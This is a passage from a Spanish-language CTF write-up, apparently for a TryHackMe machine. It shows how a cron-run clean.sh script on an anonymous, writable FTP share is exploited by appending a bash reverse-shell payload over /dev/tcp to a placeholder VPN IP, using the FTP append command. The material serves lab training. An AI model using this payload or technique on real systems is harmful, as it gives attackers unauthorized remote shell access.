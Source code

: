 Se descargaron dos archivos: cargo2.jpg y puppos.jpeg.

5.3. Análisis de las Imágenes

Las imágenes se examinaron en busca de metadatos ocultos, steganography o información relevante (por ejemplo, con exiftool o binwalk).

Conclusión:  las imágenes no contenían información útil para el avance del CTF. Esto confirma que el vector principal de ataque sigue siendo la explotación del FTP Anónimo mediante la tarea cron.

## 6. Inyección y Obtención de Reverse Shell 💣

Con el análisis confirmado de que el script `clean.sh` se ejecuta periódicamente (Cron Job) y que el directorio es escribible, el siguiente paso es inyectar un *reverse shell* y obtener acceso.

### 6.1. Confirmación de la Tarea Cron

Antes de la inyección, se vuelve a descargar y revisar el archivo `removed_files.log`. El hecho de que el número de registros haya aumentado desde la última descarga confirma que la tarea cron se está ejecutando activamente.

**Resultado (Captura de Pantalla):**

<img width="681" height="689" alt="descargo por segunda vez el log y aumentan los registros" src="https://github.com/user-attachments/assets/b6c4ac34-7cca-4bb0-814b-bc4827ce1f67" />

### 6.2. Inyección del Payload

Editamos el archivo `clean.sh` descargado localmente e inyectamos un *payload* de *reverse shell* de `bash` que apunte a nuestra dirección IP de la VPN de TryHackMe y un puerto de escucha (ejemplo: 9001).

<img width="1049" height="271" alt="modifico el script con un shell inverso" src="https://github.com/user-attachments/assets/f050167d-d3e9-4331-adde-7d0b2ab088fd" />

**Payload Inyectado:**
```bash
bash -i >& /dev/tcp/TU_IP_VPN/9001 0>&1
````

6.2. Uso del Comando append

Utilizamos el comando append para transferir el contenido del archivo local y añadirlo al final del archivo remoto clean.sh.

Comando FTP:
````
Fragmento de código

ftp> append clean.sh (remote-file) clean.sh
````
Resultado (Captura de Pantalla - Ayuda de FTP):

<img width="1648" height="183" alt="comando append en ftp" src="https://github.com/user-attachments/assets/69c3b2cf-1cad-49a3-a3b1-3b7530633edf" />


Resultado (Captura de Pantalla - Transferencia):

<img width="1015" height="177" alt="transfiero mi script" src="https://github.com/user-attachments/assets/6abfa582-8a3e-4757-a113-79feb79710ea" />
